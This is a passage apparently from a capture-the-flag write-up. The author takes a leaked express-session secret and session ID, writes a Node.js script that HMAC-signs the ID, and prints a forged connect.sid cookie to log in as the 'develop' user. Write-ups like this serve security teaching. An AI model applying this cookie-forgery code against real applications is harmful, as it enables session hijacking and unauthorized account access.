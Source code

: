```SESSION_SECRET=3df35e5dd772dd98a6feb5475d0459f8e18e08a46f48ec68234173663fca377b
...
store.set('amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E', sessionData, err => {
    if (err) console.error('Failed to create develop session:', err);
    else console.log('Development session created!');
  });
```

With this, I could now set the proper cookie in my browser and gain access to the `develop` user. I researched a bit on the `express-session` format and found  out it's just the memory store key, with an HMAC signature calculated with the session secret, concatenated and all URL encoded. Thus, I created the following code to generate the cookie:

```js
const expressSession = require('express-session');
const MemoryStore = expressSession.MemoryStore;
const crypto = require('crypto');

const SESSION_SECRET = '3df35e5dd772dd98a6feb5475d0459f8e18e08a46f48ec68234173663fca377b';
const DEVELOP_SESSION_ID = 'amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E';

const store = new MemoryStore();

const sessionData = {
    cookie: {
        path: '/',
        httpOnly: true,
        maxAge: 1000 * 60 * 60 * 48
    },
    userId: 'develop'
};

store.set(DEVELOP_SESSION_ID, sessionData, (err) => {
    if (err) {
        console.error('Error setting session:', err);
        return;
    }
    
    // now generate the signed cookie
    const signature = crypto.createHmac('sha256', SESSION_SECRET)
                           .update(DEVELOP_SESSION_ID)
                           .digest('base64')
                           .replace(/\=+$/, '');
    
    const cookieValue = `s:${DEVELOP_SESSION_ID}.${signature}`;
    const encodedCookie = encodeURIComponent(cookieValue);
    
    console.log('Generated cookie:');
    console.log(`connect.sid=${encodedCookie}`);
});
```

```
s%3AamwvsLiDgNHm2XXfoynBUNRA2iWoEH5E.R3H281arLqbqxxVlw9hWgdoQRZpcJElSLSSn6rdnloE
```
